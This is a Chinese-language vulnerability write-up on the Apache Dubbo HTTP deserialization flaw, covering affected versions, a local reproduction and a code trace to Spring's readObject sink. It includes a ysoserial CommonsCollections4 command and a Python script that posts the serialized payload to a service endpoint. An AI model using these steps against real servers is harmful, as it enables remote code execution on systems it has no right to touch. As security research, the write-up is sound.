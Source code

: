 ### 0x01 前言

这又是一个反序列化案例，其实没什么新奇的东西，本文只是记录一下我的分析过程。顺便认识一下apache dubbo

Apache dubbo是一个是基于Java的高性能开源RPC框架。它支持dubbo，http,rmi,hessian等协议。本次问题出现在dubbo开启http协议后，会将消费者提交的request请求，在无安全校验的情况下直接交给了spring-web.jar进行处理，最终request.getInputStream()被反序列化,故存在反序列化漏洞

### 0x02影响范围

    2.7.0 <= Apache Dubbo <= 2.7.4
    2.6.0 <= Apache Dubbo <= 2.6.7
    Apache Dubbo = 2.5.x

### 0x03 复现
#### 复现环境：
- Windows 10
- jdk 11
- zookeeper 3.5.7
- dubbo 2.7.3
- commons-collections 4.0
  
#### 0x04复现细节
这个漏洞要是黑盒利用的话还是有难点的，那就是要知道远程对象的路径是多少，在不知道这个路径的情况下是不能够利用的，所以这个漏洞是写不了通用poc的。

我们用官方案例搭建测试环境：https://github.com/apache/dubbo-samples/ ，选择其中的dubbo-samples-http案例，这个就是基于http协议的远程对象调用的案例。案例是基于maven的，所以只要用idea打开项目，会自动帮我们下载对应的依赖。注意，由于官方的案例使用的dubbo版本是不存在漏洞的，所以我们需要修改案例中的pom.xml文件，将dubbo的版本修改为`2.7.3`:

![](dubbo_unser/pom.png)

除此之外，为了弹出计算器，我们手动添加一下commons-collections4.jar到pom文件中：

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

注： 还有，可能zookeeper启动会占用端口8080与2181，所以，我们还需要修改http_provider.xml中的http端口：

![](dubbo_unser/http_provider.png)

当然，除了各种案例中所需的依赖，dubbo还需要zookeeper，这个也是需要我们自行安装的，下载地址：https://zookeeper.apache.org/releases.html

然后依次运行zookeeper,provider,在Provider启动过后，我们可以给consumer设置代理，然后用burp抓一下请求包，可以看到抓包内容如下：

![](dubbo_unser/burp.png)

可见实际上是向` /org.apache.dubbo.samples.http.api.DemoService`接口发送了一个post请求，而且发送的是序列化的数据，可以看到序列化数据的特征值：

![](dubbo_unser/aced0005.png)

然后我们利用ysoserial工具生成一个commonscollections4的payload，命令如下：

`java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections4 "calc.exe" > payload.ser`

然后简单写一个python脚本发送该payload到对应的接口：

```python
import requests
# 本地测试的poc
# 地址请自行修改
url = " http://169.254.203.5:8181/org.apache.dubbo.samples.http.api.DemoService"
headers = {
    "Content-Type": "application/x-java-serialized-object"
}
with open("./dubbo.ser", "rb") as file:
    payload = file.read()
requests.post(url, data=payload, headers=headers, timeout=3, verify=False)
```

运行该poc,就会触发弹出计算器了：

![](dubbo_unser/calc.png)

### 0x0 0x05漏洞分析

其实我在写这篇文章之前是看了别人的分析文章的，大概知道了就是一个POST请求的事情，然后我在自己分析的时候就在想这个post请求一定是提交到某个spring应用去了，然后我就翻了下jar包，发现有一个spring-web.jar，然后随便找了一下这个jar中的类，可以看到比较值得怀疑的文件夹：

![](dubbo_unser/spring_web.png)

然后翻了下这两个文件夹,最终觉得这个接口可能是处理http请求有关（毕竟命名已经这么赤裸裸了）:

![](dubbo_unser/Httprequesthandler.png)

点进去，使用IDEA可以直接右键点击接口名，然后find implementations

![](dubbo_unser/impl.png)

可以找到上图中圈起来的那个实现类，这个类也是最可疑的是吧，然后跟进去看一眼：

![](dubbo_unser/httpinvoker.png)

然后我看到这几个方法，就知道确实是这里了（毕竟之前已经看过其他分析文章了），然后下了几个断点，发送了一下poc,成功触发了断点。这次就是这么幸运的捕捉到了漏洞的触发链23333.

上述只是我个人在捕捉漏洞利用链的一个记录...

最终反序列化的触发是在上图中的46行的`doReadRemoteInvocation`函数内，函数实现如下：

```java
    protected RemoteInvocation doReadRemoteInvocation(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        Object obj = ois.readObject();
        if (!(obj instanceof RemoteInvocation)) {
            throw new RemoteException("Deserialized object needs to be assignable to type [" + RemoteInvocation.class.getName() + "]: " + ClassUtils.getDescriptiveType(obj));
        } else {
            return (RemoteInvocation)obj;
        }
    }
```

可以看到直接执行了`ois.readObject()`，而ois我们往上回溯一下来源：`ois=this.createObjectInputStream(this.decorateInputStream(request, is))`,而createObjectInputStream就是把一个inputStream正确的包装成ObjectInputStream,而decorateInputStream方法实现如下：

```java
    protected InputStream decorateInputStream(HttpServletRequest request, InputStream is) throws IOException {
        return is;
    }
```

直接返回了第二个参数的值，那么第二个参数的值是多少呢？也就是is变量是多少呢？就是`request.getInputStream()`,其实就是我们post发送的值。所以，用户在知道远程对象接口的情况下，发送一个恶意的序列化数据，就可以攻击服务器


### 0x06 其他

这篇文章就单纯是一个记录，没有着重讲解整个利用链的细节，欲进一步了解利用链的细节，可以看看其他师傅的文章：

https://mp.weixin.qq.com/s/CMA79NyeZN2e_nSxj8L-wQ

上面这篇文章的分析流程就比较中规中矩了，很nice

使用HTTP调用器暴露服务: http://www.shouce.ren/api/spring2.5/ch17s04.html

